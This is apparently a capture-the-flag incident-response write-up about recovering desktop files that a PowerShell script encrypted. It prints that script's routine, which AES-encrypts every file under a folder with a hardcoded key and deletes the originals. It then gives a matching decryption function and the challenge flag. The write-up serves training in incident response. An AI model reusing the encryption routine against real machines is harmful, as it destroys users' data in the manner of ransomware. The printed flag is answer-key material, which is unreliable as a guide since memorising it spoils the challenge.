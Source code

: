 # IR #5
> Can you please recover our files?

## About the Challenge
We need to recover the files that was encrypted in the `Desktop`

## How to Solve?
If you see the powershell script that we have obfuscated before, you will see there is a function to encrypt the files

```powershell
function encryptFiles{
	Param(
		[Parameter(Mandatory=${true}, position=0)]
		[string] $baseDirectory
	)
	foreach($File in (Get-ChildItem $baseDirectory -Recurse -File)){
		if ($File.extension -ne ".enc"){
			$DestinationFile = $File.FullName + ".enc"
			$FileStreamReader = New-Object System.IO.FileStream($File.FullName, [System.IO.FileMode]::Open)
			$FileStreamWriter = New-Object System.IO.FileStream($DestinationFile, [System.IO.FileMode]::Create)
			$cipher = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
			$cipher.key = [System.Text.Encoding]::UTF8.GetBytes("7h3_k3y_70_unl0ck_4ll_7h3_f1l35!")
			$cipher.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
			$cipher.GenerateIV()
			$FileStreamWriter.Write([System.BitConverter]::GetBytes($cipher.IV.Length), 0, 4)
			$FileStreamWriter.Write($cipher.IV, 0, $cipher.IV.Length)
			$Transform = $cipher.CreateEncryptor()
			$CryptoStream = New-Object System.Security.Cryptography.CryptoStream($FileStreamWriter, $Transform, [System.Security.Cryptography.CryptoStreamMode]::Write)
			$FileStreamReader.CopyTo($CryptoStream)
			$CryptoStream.FlushFinalBlock()
			$CryptoStream.Close()
			$FileStreamReader.Close()
			$FileStreamWriter.Close()
			Remove-Item -LiteralPath $File.FullName
		}
	}
}
```

This function will encrypt the files with AES encryption and then writes the encrypted contents to a new file with the `.enc` extension. The original file is then deleted. To solve this problem, we need to create another powershell function to decrypt the file:

```powershell
function decryptFiles {
    Param(
        [Parameter(Mandatory=$true, Position=0)]
        [string] $baseDirectory
    )
    
    foreach($File in (Get-ChildItem $baseDirectory -Recurse -File -Filter "*.enc")){
        $DestinationFile = $File.FullName -replace "\.enc$"
        $FileStreamReader = New-Object System.IO.FileStream($File.FullName, [System.IO.FileMode]::Open)
        $FileStreamWriter = New-Object System.IO.FileStream($DestinationFile, [System.IO.FileMode]::Create)
        
        $cipher = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
        $cipher.Key = [System.Text.Encoding]::UTF8.GetBytes("7h3_k3y_70_unl0ck_4ll_7h3_f1l35!")
        $cipher.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
        
        # Read the IV length from the encrypted file
        $ivLengthBytes = New-Object byte[](4)
        $FileStreamReader.Read($ivLengthBytes, 0, 4)
        $ivLength = [System.BitConverter]::ToInt32($ivLengthBytes, 0)
        
        # Read the IV from the encrypted file
        $ivBytes = New-Object byte[]($ivLength)
        $FileStreamReader.Read($ivBytes, 0, $ivLength)
        
        # Set the IV for the cipher
        $cipher.IV = $ivBytes
        
        $Transform = $cipher.CreateDecryptor()
        $CryptoStream = New-Object System.Security.Cryptography.CryptoStream($FileStreamWriter, $Transform, [System.Security.Cryptography.CryptoStreamMode]::Write)
        
        $FileStreamReader.CopyTo($CryptoStream)
        
        $CryptoStream.FlushFinalBlock()
        $CryptoStream.Close()
        $FileStreamReader.Close()
        $FileStreamWriter.Close()
        
        Remove-Item -LiteralPath $File.FullName
    }
}
```

To use this function, you can call it like this:

```
decryptFiles -baseDirectory "C:\path\to\files"
```

So, I decrypt all the encrypted files in `Desktop` and then check the file one by one to obtain the flag.


[Image extracted text: PS €:  Users  IEUser
Downloads>
decryptFiles
baseDirectory
{Desktop'
Customer
data
April
2023,xlsxe
C:Users IEUser
Dolnloads>
decryptfiles
baseDirectory
{Desktopinotes txt.enc
C: Users  IEUser
Downloads>
decryptFiles
baseDirectory
{Desktop  RevitaBlend docx enc
C: Users  IEUser
Downloads> decryptFiles
baseDirectory
{Desktop GlonSoothe
docx enc
C: Users  IEUser Downloads>
decryptFiles
baseDirectory
{Desktop  GlonSoothe
pdf
enc
C: Users  IEUser
Downloads> decryptFiles
baseDirectory
{Desktop  Customer
data
March
2023.xlsx enc
C: Users  IEUser
Downloads>
decryptFiles
baseDirectory
{Desktop'
Customer
data
May 2023.xlsx
enc
C: Users  IEUser
Downloads> decryptFiles
baseDirectory
{Desktop: NexGen Innovations
docx enc
C: Users  IEUser
Downloads>
decryptFiles
baseDirectory
{Desktop: NexGen
Innovations
pdf
enc
C:Users IEUser
Dolnloads>
decryptFiles
baseDirectory
{Desktop  RevitaBlend.pdf enc
C: Users  IEUser
Downloads>
decryptFiles
baseDirectory
{Desktop VitaBoost docx enc
C: Users  IEUser
Downloads> decryptFiles
baseDirectory
{Desktop VitaBoost.pdf
enc
C: Users  IEUser
Dolnloads>
decryptFiles
baseDirectory
{Desktop: Template
Tor
invoice
docx enc
C: Users  IEUser
Downloads>]


The flag was located in `Nextgen Innovation.pdf` file


[Image extracted text: NexGen Innovations pdf
cyberchef_
Search
CyberChef
flag{593f1527d6b3b9e7da9bdc431772d32f}
Draw
Read aloud
0f2 | Q | {D
flag{
1/1 ^
X
Id 5101527doblliuju Abee1n2mn]


```
flag{593f1527d6b3b9e7da9bdc431772d32f}
```